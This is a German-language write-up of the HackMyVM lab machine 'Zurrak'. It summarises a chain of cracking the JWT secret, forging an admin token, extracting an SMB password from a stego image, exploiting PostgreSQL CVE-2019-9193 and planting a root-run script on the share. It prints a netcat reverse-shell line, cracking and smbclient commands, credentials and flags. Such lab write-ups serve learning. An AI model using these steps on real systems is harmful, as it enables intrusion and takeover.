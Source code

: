 # Zurrak - HackMyVM (Medium)
 
![Zurrak.png](Zurrak.png)

## Übersicht

*   **VM:** Zurrak
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Zurrak)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 23. November 2023
*   **Original-Writeup:** https://alientec1908.github.io/Zurrak_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Zurrak"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), der eine Login-Seite (`login.php`) und Hinweise auf JWTs (`index_.php`) sowie PHP Composer-Dateien (`composer.json`, `composer.lock`) enthielt. Im Quellcode von `login.php` wurden die Credentials `internal@zurrak.htb:testsite` gefunden. Nach dem Login wurde ein JWT im Cookie (`token`) gefunden. Das JWT-Geheimnis (`TEST123`) wurde mittels `john` und `rockyou.txt` aus dem Token selbst (oder einem Teil davon) geknackt. Mit dem geknackten Geheimnis wurde ein neuer JWT mit `isAdmin:true` erstellt, was Zugriff auf das Admin-Panel (`admin.php`) ermöglichte. Im Admin-Panel wurde auf eine Steganographie-Herausforderung in Bildern (`zurrakhorse.jpg`, `zurraksnake.jpg`, `zurrakhearts.jpg`) und einen SMB-Share namens "share" hingewiesen, sowie auf einen Mechanismus, bei dem eine `emergency.sh`-Datei einen "magic script" auslöst. Die Analyse von `zurrakhearts.jpg` (Passwort `ilovecats` durch Reverse Engineering einer extrahierten `asli.exe` oder `stegseek`) führte zum Benutzernamen `asli`. Mit `asli:ilovecats` wurde Zugriff auf den SMB-Share "share" erlangt. Eine `emergency.sh`-Datei mit einem Reverse-Shell-Payload wurde in diesen Share hochgeladen. Ein "magic script" (vermutlich ein Cronjob oder Watcher) führte diese Datei aus und etablierte eine Root-Shell, da der ausführende Prozess Root-Rechte hatte. Die User-Flag wurde im Home-Verzeichnis von `postgres` gefunden.

*Zusätzliche Anmerkung: Der Bericht erwähnt auch einen PostgreSQL-Dienst (Port 5432) und einen erfolgreichen Exploit (CVE-2019-9193) mit den Credentials `postgres:baller15` (gefunden via Hydra-Bruteforce auf `admin@zurrak.htb`). Dieser Pfad führte zu einer Shell als `postgres`, aber der finale Root-Zugriff erfolgte über den SMB/emergency.sh-Weg.*

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` / `nano`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `enum4linux` (versucht)
*   `wfuzz` (versucht)
*   `wget`
*   `stegseek`
*   `steghide`
*   `hydra`
*   `john` (John the Ripper)
*   `smbclient`
*   `msfconsole` (Metasploit Framework, für PostgreSQL Exploit)
*   `nc` (netcat)
*   `python3`
*   `curl` (impliziert)
*   `exiftool` (nicht direkt genutzt, aber Steganographie-Kontext)
*   `Ghidra` / Disassembler (impliziert für `asli.exe`)
*   Standard Linux-Befehle (`ls`, `cat`, `cd`, `echo`, `mv`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Zurrak" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web/Service Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.106`). Eintrag von `zurrak.hmv` in `/etc/hosts`.
    *   `nmap`-Scan identifizierte offene Ports: 80 (HTTP - Apache 2.4.57 "Login Page"), 139/445 (SMB - Samba 4.6.2), 5432 (PostgreSQL 9.6+).
    *   `nikto` auf Port 80 fand `composer.json` und `composer.lock`.
    *   `gobuster` auf Port 80 fand `login.php`, `admin.php` (redirect zu login), `vendor/`, `index_.php` (zeigte JWT-Beispiel).
    *   Anonyme SMB-Enumeration (`enum4linux`, `smbclient -L`) war erfolglos.
    *   LFI-Versuche (`wfuzz` auf `index.php`) waren erfolglos.
    *   Quellcode von `login.php` enthielt auskommentierte Credentials: `internal@zurrak.htb:testsite`.
    *   Login mit `internal@zurrak.htb:testsite` ergab ein JWT-Cookie (`token`) mit `isAdmin:false`.

2.  **JWT Manipulation & Admin Panel Access:**
    *   Der JWT (oder ein Teil davon) wurde in `zurrak.txt` gespeichert.
    *   `john --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256 zurrak.txt` knackte das JWT-Geheimnis: `TEST123`.
    *   Ein neuer JWT wurde mit `isAdmin:true` und dem Geheimnis `TEST123` erstellt (z.B. via `jwt.io`).
    *   Durch Ersetzen des Cookies mit dem manipulierten Token wurde Zugriff auf `http://zurrak.hmv/admin.php` erlangt.
    *   Das Admin-Panel enthielt Hinweise: "please don't ever use these images for file transfers!!!" (Bilder: `zurrakhorse.jpg`, `zurraksnake.jpg`, `zurrakhearts.jpg`), "please use our smbshare named share for now.....", "for emergency, please upload your script file as emergency.sh to make magic script work".

3.  **Steganographie & SMB Credentials:**
    *   Download von `zurrakhearts.jpg`.
    *   `stegseek zurrakhearts.jpg /usr/share/wordlists/rockyou.txt` (oder `steghide` mit Passwort `ilovecats`) extrahierte `asli.exe`.
    *   *Das Passwort `ilovecats` wurde durch Reverse Engineering von `asli.exe` (Analyse von Assembly-Code mit `mov` Instruktionen) oder alternativ durch `stegseek` gefunden.*
    *   `smbclient \\\\192.168.2.106\\share -U asli%ilovecats` gewährte Zugriff auf den SMB-Share "share".

4.  **Initial Access & Privilege Escalation (via SMB, `emergency.sh` zu `root`):**
    *   Im Share wurde eine `.vmdk`-Datei gefunden (nicht weiter relevant für diesen Pfad).
    *   Erstellung einer `emergency.sh`-Datei im `/tmp`-Verzeichnis des `postgres`-Users (Zugang erlangt via CVE-2019-9193 auf PostgreSQL mit Credentials `postgres:baller15` - `baller15` gefunden durch Hydra auf `admin@zurrak.htb` via `login.php`) mit einem Reverse-Shell-Payload:
        ```bash
        #!/bin/bash
        nc 192.168.2.199 9004 -c sh 
        ```
        *(Hinweis: Der Bericht zeigt auch einen früheren Exploit-Pfad über PostgreSQL CVE-2019-9193, der zu einer Shell als `postgres` führte. Von dort wurde die `emergency.sh` vorbereitet.)*
    *   Hochladen der `emergency.sh` in den SMB-Share "share" mittels `smbclient ... -c "put emergency.sh"`.
    *   Starten eines `nc`-Listeners auf dem Angreifer-System (Port 9004).
    *   Der "magic script" (vermutlich ein Cronjob oder Watcher) auf dem Zielsystem führte die `emergency.sh` aus.
    *   Erlangung einer Root-Shell (`uid=0(root)`).
    *   User-Flag `fe8f97f109ceb0362c95e60338c4c1a8` in `/home/postgres/user.txt` gelesen.
    *   Root-Flag `66fce7650a88ac2afd99d061e1c6a4df` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Credentials im HTML-Kommentar:** Zugangsdaten für `internal@zurrak.htb`.
*   **Schwaches JWT-Geheimnis:** Ermöglichte das Erstellen von Admin-JWTs.
*   **Informationslecks im Admin-Panel:** Hinweise auf Steganographie, SMB-Shares und einen `emergency.sh`-Mechanismus.
*   **Steganographie (Bild):** Versteckte eine `.exe`-Datei, die Hinweise auf den Benutzernamen `asli` gab. Das Passwort `ilovecats` wurde entweder durch Reverse Engineering oder `stegseek` gefunden.
*   **Unsicherer SMB-Share mit privilegiertem Skript-Trigger:** Das Hochladen einer `emergency.sh`-Datei in einen SMB-Share löste deren Ausführung mit Root-Rechten aus.
*   **Passwort-Brute-Force (Hydra):** Fand das Passwort `baller15` für `admin@zurrak.htb` (verwendet für PostgreSQL-Exploit).
*   **PostgreSQL CVE-2019-9193 (COPY FROM PROGRAM):** Ermöglichte RCE als `postgres` (alternativer Pfad zum Vorbereiten der `emergency.sh`).

## Flags

*   **User Flag (`/home/postgres/user.txt`):** `fe8f97f109ceb0362c95e60338c4c1a8`
*   **Root Flag (`/root/root.txt`):** `66fce7650a88ac2afd99d061e1c6a4df`

## Tags

`HackMyVM`, `Zurrak`, `Hard`, `JWT Exploitation`, `Steganography`, `SMB`, `Script Trigger`, `RCE`, `PostgreSQL`, `CVE-2019-9193`, `Password Cracking`, `Hydra`, `Privilege Escalation`, `Linux`, `Web`
